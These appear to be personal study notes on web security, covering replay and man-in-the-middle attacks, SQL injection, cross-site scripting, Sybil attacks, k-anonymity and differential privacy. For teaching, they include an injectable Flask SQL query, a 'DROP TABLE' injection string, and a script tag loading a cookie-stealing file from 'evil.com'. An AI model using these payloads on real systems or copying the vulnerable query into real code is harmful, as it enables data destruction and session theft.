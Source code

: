 [[2023-05-11]] #Webpage #WebSecurity 

### Network Attacks
Network attacks happen as information travels between client and server. There are briefly three kinds of attacks we are going to cover.
- **Eavesdropping**
- **Man-in-the-middle** (MITM)
	- E.g. provision of fake Amazon public key
		- Solution: HTTPS with **[[5 Encryption#^e0821c|certificate authorities]]**
- **Replay**
	- Memorize a message and send it multiple times
	- E.g. memorize bill-paying message to fake the process
		- Solution: make every message **different**: (1) incrementing number, (2) random number (only once)

---

### Web Attack
While network attacks pertain to information in transit, web attacks are related to the design of our `flask` App. We will again discuss three main types of web attacks.

#### SQL Injection
The following could happen if we backend code like this
```python
username = flask.request.form["username"]

query =  
	"SELECT hash "  
	"FROM passwords "  
	"WHERE user = '" + username + "'"
```

If a client deliberately passed in a string: `; DROP TABLE PASSWORDS --`, the SQL query will drop the entire database we have back there!

Instead, it's a good habit to **separate code from data**:
```python
db.execute( "SELECT hash " 
		   "FROM passwords " 
		   "WHERE user = ?", (username,))
```

#### Cross-Site Scripting
If you allow users to post comments or other **text**, they can put **HTML tags**.
- `<script>` tag loads **code** that will run in other users' browsers

For instance,
```html
Nice picture! <script src="http://evil.com/steal_cookies.js" />
```

#### Sybil
One (1) real-life user pretends to be **multiple** online users.
- Get around bans
- Vote more than once
- Fake reviews

To protect against this, we could
- Require real phone numbers
- CAPTCHAS

---

### Database Anonymity
Data are sometimes a liability rather than an asset. There are three main methods to prevent data leakage.
- Store only the data you need
- K-anonymization
- Differential privacy

#### K-Anonymization
The power of “hiding in the crowd.” Specifically, a dataset is **k-anonymous** if quasi-identifiers for each person in the dataset are **identical** to at least $k – 1$ other people also in the dataset.

```ad-example
If we have a dataset of students' graduation year, major, and GPA, what we could do to make it 2-anoynomous is to change the graduation year (identifier) to a range of years so that there are always **AT LEAST two** rows that potentially match.
```

The downside of using k-anonymization are
- **Losing information** when you transform data
- **NP-hard** to find optimal k-anonymization
	- Optimal being losing the **LEAST** information
- If everyone in a group has the **same sensitive information**, k-anonymity doesn't help

#### Differential Privacy
Add **noise** to answers.
- Repeated queries still a problem – if I can ask 1000 times, I will **converge** to the mean and effectively remove the added noise.